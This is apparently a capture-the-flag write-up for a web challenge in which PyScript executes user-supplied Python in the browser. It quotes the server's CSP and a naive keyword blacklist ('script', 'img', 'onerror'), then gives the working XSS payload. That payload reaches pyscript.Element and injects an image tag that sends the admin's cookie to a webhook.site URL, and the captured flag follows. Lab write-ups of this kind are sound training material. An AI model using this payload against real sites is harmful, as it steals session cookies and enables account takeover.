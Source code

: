 The source code for this challenge was provided. There was no apparent XSS
vector on the server-side. But there were a couple of related defenses on
app.py:  
```  
[...]  
@app.after_request  
def add_csp(res):  
   res.headers['Content-Security-Policy'] = "script-src 'self' 'wasm-unsafe-
eval'; object-src 'none'; base-uri 'none';"  
   return res  
[...]  
@app.route('/<code_id>/exec')  
def code_page(code_id):  
   if code_id not in projects.keys():  
       abort(404)

   code = projects.get(code_id)

   # Genius filter to prevent xss  
   blacklist = ["script", "img", "onerror", "alert"]  
   for word in blacklist:  
       if word in code:  
           # XSS attempt detected!  
           abort(403)

   res = make_response(render_template("code.html", code=code))  
   return res  
```  
PyScript was being used on the front-end to run python code on the browser
that we could provide. I didn't found a way to import modules so I checked the
available methods with the following payload:  
```  
print(dict.__base__.__subclasses__())  
```  
Which resulted in 367 class methods being printed. Out of those one in
particular can be used in our XSS efforts:  
```  
number 363 <class 'pyscript.Element'>  
```  
Uppon checing the documentation at
https://docs.pyscript.net/latest/reference/API/element.html?highlight=element
and https://docs.pyscript.net/latest/tutorials/writing-to-page.html I forged
the final payload to get the admin's cookie:  
```  
but = dict.__base__.__subclasses__()[363]("buttons")  
but.element.innerHTML=
'![](https://webhook.site/f202667e-9179-425d-80c1-fd62da5915d4?'+but.element.ownerDocument.cookie+')'  
```  
Sent the link to this code to the admin's bot and got the flag on the
webhook.site:  
```  
GPNCTF{4pp4r3ntly_pyth0n_1s_n0w_us3d_f0r_3v3ryth1ng_l2lIMU7mVOxawTvXBub}  
```  
Check the video above for a more comprehensive overview of the exercise and
feel free to ask questions in the comments.

Original writeup (https://youtu.be/P_0wrB-EAeU).